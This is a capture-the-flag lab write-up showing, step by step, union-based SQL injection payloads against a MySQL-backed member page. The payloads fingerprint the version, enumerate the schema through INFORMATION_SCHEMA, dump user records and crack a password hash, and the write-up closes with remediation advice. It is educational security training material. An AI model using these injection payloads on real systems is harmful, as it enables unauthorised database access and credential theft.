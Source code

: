 # Get the flag
Page: `/?page=member`

Put some number on it and discover that is may use a DB call (select) to retrieve informations.
So first of all we need to fingerprint the database server (if it's mySQL, oracle...)
Usually adding a single quote ' or a semicolon ; is enough to get an error if the query isn't filtered.
And here it comes : *MySQL*

Once we know that we need to fingerprint the version of the server (to know possible known attacks, or features we can use).

Example of features for mySQL: 
```
From Version 4.0: UNION
From Version 4.1: Subqueries
From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION_SCHEMA
From Version 5.0.2: Triggers
```
[_source_](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.2-Testing_for_MySQL.html)

`1 AND 1=0 UNION SELECT 1, @@version `
=> *5.5.44-0ubuntu0.12.04.1*
(if we try just UNION SELECT @@ version we got the union error of number columns, that's why we add a fake select field '1', as @@version only return one column)

MySQL >= 5.0 as a very helpfull feature which is *INFORMATION_SCHEMA*
>Provides access to database metadata, information about the MySQL server such as the name of a database or table [...]
See [_here_](https://dev.mysql.com/doc/refman/5.6/en/information-schema.html)

1. Retrieve databases
`1 AND 1=0 UNION SELECT 1, DATABASE()`
=> *Member_Sql_Injection*

2. Retrieve tables
`1 AND 1=0 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=DATABASE()`
=> *users*

3. Retrieve columns 
`1 AND 1=0 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema=DATABASE()`
=> *user_id, first_name, last_name, town, country, planet, Commentaire, countersign*

_N.B: good practice to add table name if the union permit it and if there is multiple tables (here it's just for example purpose)_

4. Getting all informations about a user
`1 AND 1=0 UNION SELECT 1, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users`
=> *Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28*

So if we decrypt it with https://hashtoolkit.com/ we get : FortyTwo. Then
we need to hash fortytwo with sha256.

# Security issue
>A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system
[_source_](https://owasp.org/www-community/attacks/SQL_Injection)

# Fix it
1. Don't show error message on production !
2. Use parameterized statements to specify what you're going to receive (you can add regexp, typechecking etc...)
3. Use an ORM (they usually use parameterized statements)
4. Keep your database server up-to-date (as your ORM)